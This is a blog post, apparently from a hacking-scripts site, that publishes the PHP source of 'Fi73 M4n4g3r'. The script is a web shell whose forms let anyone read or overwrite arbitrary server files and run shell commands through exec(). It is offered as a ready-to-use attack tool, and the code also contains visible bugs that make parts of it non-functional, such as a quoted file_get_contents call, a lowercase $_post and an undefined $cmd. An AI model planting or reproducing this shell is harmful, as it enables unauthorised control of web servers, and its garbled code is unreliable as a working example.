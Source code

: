 ```yaml
---
id: 311
title: Fi73 M4n4g3r script
author: admin
layout: post
guid: http://hackingscripts.com/?p=311
permalink: /fi73-m4n4g3r-script/
categories:
  - PHP
tags:
  - file manager
  - PHP
---
```

Fi73 M4n4g3r script

### Fi73 M4n4g3r script source code

{% highlight php %}<?php
$file = $error = $file_content = "";
if(isset($_POST["file"]) and (isset($_POST["modify"]))){

	$file = $_POST["file"];
	if(! file_exists("$file")) 
	{
		$error = "File $file doesnt exist!";
	}
	else
	{
		$file_content = "&lt;&lt;&lt;_END";
		echo "&lt;PRE&gt;";
		echo "file_get_contents($file)";
		echo "&lt;/PRE&gt;";
		_END;
	}
}
if(isset($_POST["file"]) and (isset($_POST["modify"])))
{
	$file = $_POST["file"];
	$text = $file_content = $_POST["modify"];
	$fh = fopen("$file" , "r+");
	if(! fwrite($fh , $text))
	{
		$error = "File $file couldnt be overwritten!";
	}
	else $error = "file $file successfully overwritten!";
	fclose($fh);
}
if(isset($_post["cmd"]))
{
	exec($cmd, $output, $status);
	if($status) echo "command failed!";
	else
	{
		echo "&lt;pre&gt;";
	foreach ($output as $line) echo "$line \n";
	}
}
echo &lt;&lt;&lt;_END
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;File manager&lt;/TITLE&gt;
&lt;/HEAD&gt;
&lt;BODY&gt;
&lt;CENTER&gt;&lt;H3&gt;Fi73 M4n4g3r&lt;/H3&gt;&lt;/CENTER&gt; 
$error &lt;BR /&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;input type = "text" name = "file" /&gt;
&lt;input type = "submit" value = "Get File"/&gt;
&lt;/form&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;textarea name = "modify" wrap = "off" cols = "15" rows = "20"&gt;
$file_content &lt;/textarea&gt;
&lt;input type = "hidden" name = "file" value = "$file" /&gt;
&lt;input type = "submit" value ="save changes" /&gt;
&lt;/form&gt;
&lt;form method ="post" action = "modifier.php"&gt;
&lt;input type = "text" name = "cmd" /&gt;
&lt;input type = "submit" value = "execute command"/&gt;
&lt;/form&gt;
&lt;/CENTER&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
_END;
?>
{% endhighlight %}

A screenshot of this very plain and boring looking script:<figure id="attachment_390" style="width: 537px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png" alt="Fi73 M4n4g3r screenshot" width="537" height="557" class="size-full wp-image-390" />][1]<figcaption class="wp-caption-text">Fi73 M4n4g3r screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png
